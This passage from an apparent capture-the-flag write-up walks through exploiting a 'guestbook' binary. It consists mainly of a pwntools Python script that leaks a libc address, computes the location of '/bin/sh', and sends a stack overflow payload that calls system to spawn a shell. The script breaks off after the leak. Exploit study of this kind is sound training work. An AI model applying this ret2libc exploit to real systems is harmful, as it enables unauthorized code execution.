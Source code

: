 and we cans ee that the offset is `0x9c`:
```
>>> hex(0xffffd13c - 0xffffd0a0)
'0x9c'
```

So there we can place the address of `system`. Four bytes after that, we will just place a ptr to the libc address for the string `/bin/sh` (since that is where it will expect it's input).

## Exploit

Putting it all together, we get the following exploit:

```
# noopnoop helped with this exploit

# Import pwntools
from pwn import *

#context.terminal = ['tmux', 'splitw', '-h']

# Establish the target process, and hand it over to gdb
target = process('./guestbook', env={"LD_PRELOAD":"./libc.so.6"})
gdb.attach(target)

# Establish the function which will create the first four names
def start():
    print target.recvuntil(">>>")
    target.sendline("15935")
    print target.recvuntil(">>>")
    target.sendline("75395")
    print target.recvuntil(">>>")
    target.sendline("01593")
    print target.recvuntil(">>>")
    target.sendline("25319")


# Create the function which will calculate the address of /bin/sh from the address of system, since they are both in libc
def calc_binsh(system_adr):
    binsh = system_adr + 0x120c6b
    log.info("The address of binsh is: " + hex(binsh))
    return binsh

# Create the function which will create the payload and send it
def attack(system, binsh, heap):
    target.sendline("2")
    print target.recvuntil(">>>")
    target.sendline("0")
    print target.recvuntil(">>>")
    payload = "0"*0x4 + "\x00" + "1"*0x5f + p32(0x0) + "2"*0x4 + p32(heap) + "3"*0x2c + p32(system) + "4"*0x4 + p32(binsh)
    target.sendline(payload)

# Run the start function
start()

# Get the infoleak, for the address of system and the address of the heap space for the first name
print target.recvuntil(">>")
target.sendline("1")
print target.recvuntil(">>>")
target.sendline("6")
leak = target.recv(24)
print target.recvuntil(">>")
system_adr = u32(leak[20:24])
```